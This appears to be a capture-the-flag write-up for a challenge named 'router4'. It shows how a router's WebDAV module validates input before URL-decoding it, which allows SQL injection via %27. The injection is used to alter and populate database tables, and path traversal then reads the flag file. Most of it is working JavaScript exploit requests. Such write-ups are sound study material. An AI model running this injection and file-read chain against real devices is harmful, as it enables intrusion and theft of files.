





# router4

In `mode_webdav.so`, it first checks for invalid characters and then do url decode when handle `PROPFINDMEDIALIST` request, making it easy to bypass the check with `%27`.





However, the database includes a distinct DETAILS table and lacks the `OBJECTS` and `ALBUM_ART` tables, resulting in several functions not functioning as intended.



`GETMUSICCLASSIFICATION` method has `get_album_cover_image` method which can load file content and leak.



If we want to use `GETMUSICCLASSIFICATION` to leak the flag, the first thing we need to do is change or create the table to make it work. This is easy to do.

```js
val = ("a' OR 1 );ALTER TABLE DETAILS ADD COLUMN ALBUM_ART INTEGER DEFAULT 0; -- ").split("'").join("%27")
console.log(val.length)
await fetch("/RWCTF", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

val = ("a' OR 1 );ALTER TABLE DETAILS ADD COLUMN ARTIST TEXT COLLATE NOCASE; -- ").split("'").join("%27")
console.log(val.length)
await fetch("/RWCTF", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

val = ("a' OR 1 ); CREATE TABLE ALBUM_ART (ID INTEGER PRIMARY KEY AUTOINCREMENT, PATH TEXT NOT NULL); -- ").split("'").join("%27")
console.log(val.length)
await fetch("/RWCTF", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

val = ("a' OR 1 );CREATE TABLE OBJECTS(ID INTEGER PRIMARY KEY AUTOINCREMENT,OBJECT_ID TEXT UNIQUE NOT NULL,PARENT_ID TEXT NOT NULL,REF_ID TEXT,CLASS TEXT NOT NULL,DETAIL_ID INTEGER,NAME TEXT); -- ").split("'").join("%27")
console.log(val.length)
await fetch("/RWCTF", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

```

After that, we need to pass a sql query in order to enter `get_album_cover_image` and load the path we inject.



To do so, we need to insert some data into the tables.

```js
val = ("a' OR 1 ); INSERT INTO OBJECTS (PARENT_ID, OBJECT_ID, DETAIL_ID, CLASS) VALUES ('1$7', " + oId + ", " + dId + ", 'container.album.musicAlbum'); -- ").split("'").join("%27")
console.log(val.length)

await fetch("/RWCTF", {
  "headers": {

    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});

val = ("a' OR 1 );  INSERT INTO ALBUM_ART (PATH, ID) VALUES ('" + path + "', " + pId + "); -- ").split("'").join("%27")
console.log(val.length)


await fetch("/RWCTF", {
  "headers": {
    "keyword": val,
    "mediatype": "1",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "PROPFINDMEDIALIST",
});
```

The next thing to do is bypass the check for path which should start with `/mnt`, but `/mnt` is actually `/tmp/mnt/` so the path should be `/mnt/../../flag`.

Then we can get the content of flag by calling `GETMUSICCLASSIFICATION` method.

```js
await fetch("/RWCTF", {
  "headers": {
    "classify": "album",
  },
  "body": "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\" ?><D:propfind xmlns:D=\"DAV:\"><D:prop><D:getlastmodified/><D:getcontentlength/><D:getcontenttype/><D:getmatadata/></D:prop></D:propfind>",
  "method": "GETMUSICCLASSIFICATION"
}).then(a => a.text())
```
